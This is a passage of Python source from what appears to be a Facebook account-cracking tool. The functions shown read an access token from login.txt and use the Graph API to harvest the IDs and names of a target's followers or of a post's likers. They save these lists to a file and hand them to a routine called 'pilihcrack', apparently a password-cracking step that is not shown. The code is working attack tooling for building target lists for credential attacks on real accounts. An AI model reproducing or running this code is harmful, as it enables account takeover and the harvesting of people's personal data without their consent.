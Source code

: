 			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

def follow():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		idt = input(k+"\n["+p+"•"+k+"]"+p+" Followers ID Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=20000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]:
			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
		ys.close()
		print((k+"["+p+"•"+k+"]"+p+" Total ID : %s"%(len(id))))
		return pilihcrack(qq)
	except Exception as e:
		exit(k+"["+p+"!"+k+"]"+p+" Error : %s"%e)

def likers():
	try:
		toket=open("login.txt","r").read()
	except IOError:
		print((k+"\n["+p+"!"+k+"]"+p+" Cookie/Token Invalid"))
		os.system("rm -rf login.txt")
		logs()
	try:
		idt = input(k+"\n["+p+"•"+k+"]"+p+" ID Post Target : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print((k+"["+p+"•"+k+"]"+p+" Name : "+op["name"]))
		except KeyError:
			print((k+"["+p+"!"+k+"]"+p+" ID Not Found"))
			print((k+"\n[ "+p+"Back"+k+" ]"+p))
			publik()
		r=requests.get("https://graph.facebook.com/"+idt+"/likes?limit=100000&access_token="+toket)
		id = []
		z=json.loads(r.text)
		qq = (op["first_name"]+".json").replace(" ","_")
		ys = open(qq , "w")#.replace(" ","_")
		for a in z["data"]:
			id.append(a["id"]+"<=>"+a["name"])
			ys.write(a["id"]+"<=>"+a["name"]+"\n")
